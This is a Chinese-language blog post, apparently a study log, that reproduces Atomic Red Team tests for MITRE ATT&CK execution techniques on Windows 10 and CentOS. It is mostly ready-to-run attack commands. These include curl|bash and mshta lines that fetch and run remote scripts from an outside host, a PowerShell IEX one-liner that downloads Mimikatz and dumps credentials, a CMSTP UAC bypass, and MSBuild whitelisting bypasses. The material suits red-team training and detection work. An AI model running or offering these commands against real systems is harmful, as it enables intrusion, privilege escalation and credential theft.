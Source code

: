 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之execution
excerpt: "跟着ATT&CK学安全之execution"
categories: [ATT&CK]
comments: true
---
```

#### T1191 - CMSTP
Microsoft Connection Manager Profile Installer (CMSTP.exe)是一个安装连接管理配置的应用程序.它允许接受一个INF文件作为参数,安装一个服务,来进行远程连接.红队可用CMSTP.exe和inf文件来生成恶意命令.CMSTP.exe现在拒绝从远程加载dll,但由于CMSTP.exe是一个合法的程序,且有微软的签名,这个运行仍然可以绕过基于白名单和AppLocker的防御.

CMSTP.exe也可以通过COM接口绕过UAC来执行二进制文件

关于用户账户控制(UAC):UAC 会阻止未经授权应用程序的自动安装，防止无意中对系统设置进行更改。例如选择总是通知将会:
- 当程序试图安装软件或对电脑做出更改时通知你。
- 当你对 Windows 设置进行更改时通知你。
- 冻结其他任务，直到你做出响应。
##### 测试1 CMSTP 运行远程脚本
平台:Windows.运行方式如下`cmstp.exe /s T1191.inf`

window10运行成功
##### 测试2 CMSTP运行绕过UAC
红队可通过向inf文件中植入RunPreSetupCommandsSection来调用cmd.exe,来绕过UAC
```bash
cmstp.exe /s T1191_uacbypass.inf /au
```
window10运行成功
#### T1059 - Command-Line Interface
这个没什么好说的,就是一个命令行运行文件

平台:Linux,运行如下命令
```bash
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
或者
bash -c "wget --quiet -O - http://snappyzz.com/echo-art-fish.sh | bash"
```
centos上运行成功
#### T1223 - Compiled HTML File
编译的html文件(.chm)可运行如下:HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX.并通过hh.exe来打开他们,红队可用chm文件来隐藏一段payload,此技术也可以来绕过一些检测病毒检测.运行如下命令,或者直接打开文件
```
hh.exe D:\pycharmproject\atomic-red-team-master\atomics\T1223\src\T1223.chm
```
windows10上运行成功

或者
```bash
hh.exe http://snappyzz.com/T1223.chm		\\这个没有成功复现
```
#### T1196 - Control Panel Items
控制面板允许用户查看和修改电脑配置,也可以将cpl文件作为参数,运行恶意文件,来绕过一些病毒检测
```bash
control.exe D:\pycharmproject\atomic-red-team-master\atomics\T1196\bin\calc.cpl	//这里cpl一定要采用绝对路径否则失败
```
windows10上运行成功
#### T1173 - Dynamic Data Exchange
关于动态数据交换（DDE, Dynamic Data Exchange）:DDE是一种动态数据交换机制（Dynamic Data Exchange，DDE）。使用DDE通讯需要两个Windows应用程序，其中一个作为服务器处理信息，另外一个作为客户机从服务器获得信息。客户机应用程序向当前所激活的服务器应用程序发送一条消息请求信息，服务器应用程序根据该信息作出应答，从而实现两个程序之间的数据交换。红队可用DDE来运行二进制命令,微软的文档可以用来放入DDE命令

新建一个Word文档，通过Ctrl+F9添加一个域，然后修改域代码为：
```bash
DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe" 
```
这个并没有复现成功
#### T1118 - InstallUtil
这个就是一个安装和卸载的组件
这个没有复现成功
##### 测试1 InstallUtil uninstall method call
#### T1170 - Mshta
Mshta.exe是用来运行Microsoft HTML Applications (HTA)的.HTA是一个独立的应用,使用的和浏览器同样的技术,但是独立与浏览器.红队和用它来运行Javascript 或者VBScript.它可以用来绕过白名单的防护,也可以绕过浏览器安全防护
##### 测试1 Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
```bash
mshta.exe javascript:a=(GetObject("script:http://snappyzz.com/mshta.sct")).Exec();close();
```
windows10上运行成功
##### 测试2 Mshta calls a local VBScript file to launch notepad.exe
```bash
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""C:\Windows\SysWOW64\calc.exe"")(window.close)")
```
windows10上运行成功
##### 测试3 Mshta executes VBScript to execute malicious command
运行本地的VB脚本通过powershell枚举用户
```bash
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file D:\pycharmproject\atomic-red-team-master\atomics\T1170\src\powershell.ps1"":close")
```
windows10上运行成功
##### 测试4 Mshta Executes Remote HTML Application (HTA)
```bash
mshta.exe http://snappyzz.com/T1170.hta
```
windows10上运行成功
#### T1086 - PowerShell
##### 测试1 下载Mimikatz并dump credentials
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
windows10上运行成功
##### 测试2 
下载Bloodhound并运行
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/SharpHound.ps1'); Invoke-BloodHound"
```
被win10防病毒拦下
未完待续

#### T1064 - Scripting
这个太简单了把
##### 测试1 在linux上运行脚本
```
sh -c "echo 'echo Hello from the Atomic Red Team' > /tmp/art.sh"
sh -c "echo 'ping -c 4 8.8.8.8' >> /tmp/art.sh"
chmod +x /tmp/art.sh
sh /tmp/art.sh
```
windows10上运行成功
##### 测试2 在windows上运行脚本
```
C:\Windows\system32\cmd.exe /Q /c echo #{command_to_execute} > #{script_to_create}
C:\Windows\system32\cmd.exe /Q /c #{script_to_create}
```
清除
```
del #{script_to_create}
```
windows10上运行成功
#### T1127 - Trusted Developer Utilities
有许多工具集可以用来执行代码,它有合法的证书并且允许它运行其他程序,这类工具集包括:MSBuild DNX RCSI WinDbg/CDB Tracker等
##### 测试1 MSBuild Bypass Using Inline Tasks
使用msbuild.exe执行c#代码
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe D:\pycharmproject\atomic-red-team-master\atomics\T1127\src\T1127.csproj
```
windows10上运行成功
#### T1216 - Signed Script Proxy Execution
带有证书的脚本可以用来执行恶意文件
这个也未完待续


